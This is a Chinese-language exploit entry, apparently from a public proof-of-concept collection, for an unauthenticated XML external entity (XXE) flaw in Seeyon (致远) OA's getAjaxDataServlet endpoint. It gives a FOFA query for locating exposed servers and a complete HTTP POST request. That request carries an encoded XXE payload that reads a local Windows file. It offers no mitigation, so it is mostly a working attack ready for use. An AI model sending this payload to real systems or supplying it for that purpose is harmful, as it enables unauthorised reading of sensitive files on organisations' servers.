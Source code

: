 ## 致远OA_getAjaxDataServlet接口存在任XXE漏洞

致远互联-OA getAjaxDataServlet 接口处存在XML实体注入漏洞，未经身份认证的攻击者可以利用此漏洞读取系统内部敏感文件，获取敏感信息，使系统处于极不安全的状态。


## fofa
```
app="致远互联-OA"
```

## poc
```
POST /seeyon/m-signature/RunSignature/run/getAjaxDataServlet HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Host: 127.0.0.1
Content-Length: 581
Expect: 100-continue
Connection: close

S=ajaxColManager&M=colDelLock&imgvalue=lr7V9+0XCEhZ5KUijesavRASMmpz%2FJcFgNqW4G2x63IPfOy%3DYudDQ1bnHT8BLtwokmb%2Fk&signwidth=4.0&signheight=4.0&xmlValue=%3C%3Fxml+version%3D%221.0%22%3F%3E%0D%0A%3C%21DOCTYPE+foo+%5B%0D%0A++%3C%21ELEMENT+foo+ANY+%3E%0D%0A++%3C%21ENTITY+xxe+SYSTEM+%22file%3A%2F%2F%2Fc%3A%2Fwindows%2Fwin.ini%22+%3E%0D%0A%5D%3E%0D%0A%3CSignature%3E%3CField%3E%3Ca+Index%3D%22ProtectItem%22%3Etrue%3C%2Fa%3E%3Cb+Index%3D%22Caption%22%3Ecaption%3C%2Fb%3E%3Cc+Index%3D%22ID%22%3Eid%3C%2Fc%3E%3Cd+Index%3D%22VALUE%22%3E%26xxe%3B%3C%2Fd%3E%3C%2FField%3E%3C%2FSignature%3E
```

![7f69187733a77b19c7e8b2c772ca1a8b](../../images/677f206c-4f2d-479d-88d7-534377e279ea.png)

